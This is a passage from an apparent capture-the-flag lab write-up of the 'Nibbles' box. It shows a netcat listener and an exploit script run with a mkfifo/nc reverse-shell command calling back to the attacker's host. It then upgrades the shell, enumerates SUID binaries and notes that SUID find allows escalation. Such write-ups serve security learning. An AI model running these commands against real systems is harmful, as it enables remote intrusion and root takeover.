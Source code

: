 - We can see that we succeeded!
- That then reminds me that we can go back and utilize the exploit with the -c command now that we have credentials!

### Exploitation:

Netcat Listener:

```
nc -lnvp 80
```

50847.py

```
python3 50847.py -i 192.168.78.47 -p 5437 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.78 80 >/tmp/f'
```

We catch a shell! — Proof!

![Untitled](%E2%80%9CNibbles%E2%80%9D%2099d7de12082a4c8e95badfefbe39a16e/Untitled%202.png)

![Untitled](%E2%80%9CNibbles%E2%80%9D%2099d7de12082a4c8e95badfefbe39a16e/Untitled%203.png)

### Privilege Escalation:

Upgrade to a more stable shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

SUID Binaries:

```
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;

< -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 51184 Jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 34896 Jan  7  2019 /usr/bin/fusermount
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 315904 Feb 16  2019 /usr/bin/find
-rwsr-xr-x 1 root root 157192 Feb  2  2020 /usr/bin/sudo
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
```

- I remember from a previous box I had done, that find can be exploited in various ways to escalate your privileges.
- “It can be used to break out from restricted environments by spawning an interactive system shell.”
